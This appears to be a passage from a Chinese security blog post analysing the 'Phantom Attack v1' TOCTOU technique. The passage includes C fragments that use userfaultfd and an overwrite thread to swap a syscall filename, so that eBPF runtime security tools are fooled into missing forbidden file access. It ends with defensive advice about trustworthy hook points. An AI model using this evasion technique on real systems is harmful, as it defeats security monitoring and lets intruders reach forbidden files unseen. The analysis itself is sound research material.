 ```c
      uffdio_copy.mode = 0;
      uffdio_copy.copy = 0;

      /* 将 Malicious filename 复制到 page 指向内存空间的起始位置 */
      strncpy(page, filename, sizeof(filename));
      flush(page);
      /* 释放互斥锁 */
      sender(); 

      printf("Before ioctl\n");
      if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
        handle_error_en(-1, "ioctl-UFFDIO_COPY");

      printf("        (uffdio_copy.copy returned %lld)\n",
                uffdio_copy.copy);
    ...  
```

我们在 `userfaultfd` 注册相应事件的处理逻辑，在这里主要就关注 UFFD_EVENT_PAGEFAULT. 此时，我们已经“偷偷地”改写了 `filename`，并释放了用于同步 **overwrite thread** 的锁，最终通过 IOCTL 返回到内核执行流。

内核线程从恶意 `filename` 指向的用户内存空间中复制要打开文件的路径数据到内核缓冲区，并以此为参数调用内部处理文件打开的函数，这是 TOU 阶段。

与此同时，在另外一个 CPU Core 上运行着的 **overwrite thread** 正准备向 pageA 中写入合法的路径数据，
```c
  receiver() /* 该线程会在这暂停执行，直到锁释放 */

  asm volatile("mfence");
  // 写入合法的路径数据
  write_char(fakename, sizeof(fakename));
  asm volatile("mfence");
  flush(page);

    /* trigger interrupt */
#ifdef TLBSHOOTDOWN_MPROTECT
  int s = mprotect((void *)page, 4096, PROT_READ | PROT_WRITE | PROT_EXEC);
  if (s != 0) {
    handle_error_en(s, "mprotect");
  }
  return NULL;
#endif 
```

在上述代码中，我们使用了 IPIs 来触发 CPU Core3 上运行着的 **kernel thread**
的中断，这将会为我们的覆写带来充足的时间窗口。

最终，当控制流又重新回到 **kernel thread** 时，Hook 在 `sys_exit` 处的 **tracing program** 读取到被修改后的 `filename`，最终实现 TOCTOU 问题的利用，欺骗 **Runtime Security** 产品，访问规则不允许的文件而不产生告警，相关的 demo 可以在 github 上找到，[链接](https://github.com/rexguowork/phantom-attack/blob/main/phantom_v1/attack_openat.c#L385-L392)放在这儿。

### 🤔进一步研究

在介绍整个 Phantom Attack v1 的过程中，我们不难发现整个攻击链路的关键点在于设计的 **tracing program** 选择了什么函数作为跟踪的 Hook 点 ，若选择的 Hook 点读取的数据来自于用户空间侧，其就存在被篡改的风险，若选择的 Hook 点使用的是已经位于内核侧的数据作为入参，其存在被篡改的可能性就小，**tracing program** 获得到的数据也就更加可信。在内核中有以 security_xxxx 命名的函数，这些函数所处的路径可以认为是安全的，hook 到这些函数的 kprobe 可以信任它们从中获得的数据。
